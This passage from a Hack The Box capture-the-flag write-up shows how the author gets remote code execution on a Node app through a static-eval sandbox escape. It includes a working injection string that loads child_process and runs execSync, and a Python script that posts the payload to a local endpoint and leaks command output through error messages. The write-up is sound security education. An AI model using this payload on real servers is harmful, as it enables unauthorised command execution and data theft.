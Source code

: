 I then restarted my container. After running the script again, I realised that the injection didn't actually execute, it was just returned as a string with all the apostrophes escaped by backslashes.

I realised that this was the case because the injection string is meant to be assigned to `formula` - with the script above, evaluating the `formula` meant replacing the variable `assignment` in the `formula` with the value of `assignment`. The fix was just to change `"formula":assignment` to `"formula":injection`.

Running the script, I get some output on the console (the terminal which I ran `./build_docker.sh` on):

![successfully injecting code on server](/images/htb/owasp-top-10/baby-breaking-grad/4_output-of-process-env.png)

We have successfully ran some commands on the server. From here, I tinkered around with `injection` to figure out how to execute shell commands on the server. I previously mentioned [an article](https://vulners.com/github/GHSA-8V27-2FG9-7H62) detailing how a CVE for `static-eval` 2.0.2 was withdrawn. The article provided a POC for the 'vulnerability', and I combined the POC with the current value of `injection` to create an injection string which executed shell commands: changing `injection` to `'(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.mainModule.constructor._load(\'child_process\').execSync(\'ls\').toString())")()'` allowed me to execute `ls` on the server:

![executing ls on server](/images/htb/owasp-top-10/baby-breaking-grad/5_executing-ls-on-server.png)

`flaghKtZB` is the flag file for testing included in the downloaded source code.

Now that we know how to execute arbitrary commands on the server, we need to find a way to exfiltrate data from the server because we won't have access to the console on the live server. I tried to pipe the output of commands to a listener on my local machine using `nc` but `nc` isn't installed. I tried several bash / python reverse shell payloads but none of them seemed to work. Most of the commands executed just gave an error.

I went back to consult [this walkthrough](https://braincoke.fr/write-up/hack-the-box/baby-breaking-grad/) and discovered that there was a simpler solution than popping a reverse shell - which was to simply exfiltrate the data using error messages. By using `throw new Error(<command to execute>)` instead of `console.log`, the output of the command will be part of the http response which we are able to retrieve.

For example, running this script:

```python
import requests

command = 'ls'
injection = '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("throw new Error(process.mainModule.constructor._load(\'child_process\').execSync(\'' + command + '\').toString())")()'
url = "http://127.0.0.1:1337/api/calculate"
payload = {
    "name" : "johndoe",
    "formula": injection
    }
r = requests.post(url, json=payload)
print(r.text)
```
